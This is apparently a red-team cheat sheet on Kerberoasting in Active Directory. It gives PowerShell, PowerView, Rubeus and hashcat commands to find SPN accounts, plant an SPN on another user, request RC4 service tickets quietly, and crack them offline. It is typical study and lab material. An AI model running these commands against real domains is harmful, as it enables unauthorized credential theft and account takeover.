 # Kerberoasting

When a user account has a Service Principal Name, it is possible to request a Service Ticket for the service mentionned in the SPN.

The Service Ticket is encrypted with the password of the user account: it is possible to crack the ST to retrieve the user account's password.



## List users that have SPN

```powershell
> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

## List users that have SPN in trusted forest

```powershell
> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server dc.trust.local
```

## Set SPN to user

If our user has `GenericWrite` or `GenericAll` to another user, it is then possible to write an SPN and perform a targeted kerberoast attack.

```powershell
# List our privileges on the group StudentUsers
[PowerView]> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
# Or use BloodHound to find this
```

Update SPN:

```powershell
> Set-ADUser -Identity <username> -ServicePrincipalNames @{Add='domain/SPN'} -Verbose
[PowerView]> Set-DomainObject -Identity <username> -Set @{serviceprincipalname='domain/SPN'} -Verbose
```

Check that SPN has been updated:

```powershell
> Get-ADUser -Identity <username> -Properties ServicePrincipalName | select ServicePrincipalName
```

## Request ST

This command requests a Service Ticket for user `username`. The `/rc4opsec` flag only requests tickets for user accounts that support RC4.&#x20;

```powershell
> Rubeus.exe kerberoast /user:<username> /simple /nowrap /rc4opsec /outfile:hashes.txt
```

Add `/domain` if user is in a trusted domain.

## Crack with JtR or hashcat

```powershell
> john.exe --wordlist=<path_to_wordlist> hashes.txt
> hashcat -m 13100 hashes.txt <path_to_wordlist>
```
